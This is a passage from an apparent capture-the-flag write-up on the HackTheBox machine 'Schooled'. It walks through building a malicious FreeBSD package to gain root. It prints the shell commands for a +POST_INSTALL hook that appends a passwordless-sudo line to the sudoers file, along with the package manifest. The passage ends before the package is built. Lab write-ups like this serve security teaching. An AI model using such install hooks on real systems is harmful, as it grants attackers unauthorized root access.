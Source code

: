 ### Generate Package

#### Overview

Now that I can make Schooled contact my VM requesting updates / packages, I
will make a malicious package that will enable root access. There’s an entire
chapter [in the FreeBSD
docs](https://docs.freebsd.org/en_US.ISO8859-1/books/porters-handbook/own-
port.html) about making a new Port (what FreeBSD calls a package). [This
post](http://lastsummer.de/creating-custom-packages-on-freebsd/) gives a
simpler path to creating a package. In a staging directory, I’m going to
create a few files:

  * `+POST_INSTALL` \- This is the file that will run on install.
  * `+MANIFEST` \- Metadata about the package.
  * `usr/local/etc/my.conf` \- This is a fake conf file that will be dropped into place on the installing system.
  * `plist` \- Information about that conf file.

Then I need to run some `pkg` commands to create the package and the repo
files. `pkg create` (doesn’t need to be run as root) will create a package
archive file. `pkg repo` will:

>
>     Create a local package repository for remote usage.
>  

In practice this creates the metadata files that Schooled was requesting when
it ran `pkg update` and `pkg install`.

Because I need access to `pkg`, I could create a FreeBSD VM, or I could just
work from a staging directory on Schoool. I’ll do the latter.

#### Generate Package

I’ll create a staging directory to work from:

    
    
    jamie@Schooled:/var/tmp $ mkdir .0xdf
    

I tried a couple ways to get a shell as root, but the one that ultimately
ended up working was to write to the `sudoers` file:

    
    
    jamie@Schooled:/var/tmp/.0xdf $ cat > +POST_INSTALL <<EOF
    > echo "jamie ALL=(ALL) NOPASSWD: ALL" >> /usr/local/etc/sudoers
    > EOF
    

Next the manifest file, using the template from the blog post (many of these
fields are probably not necessary):

    
    
    jamie@Schooled:/var/tmp/.0xdf $ cat > +MANIFEST <<EOF
    name: "0xdf"
    version: "1.0_5"
    origin: sysutils/0xdf
    comment: "0xdf was here"
    desc: "moar root plz"
    maintainer: 0xdf@schooled.htb
    www: https://0xdf.gitlab.io
    prefix: /
    EOF
    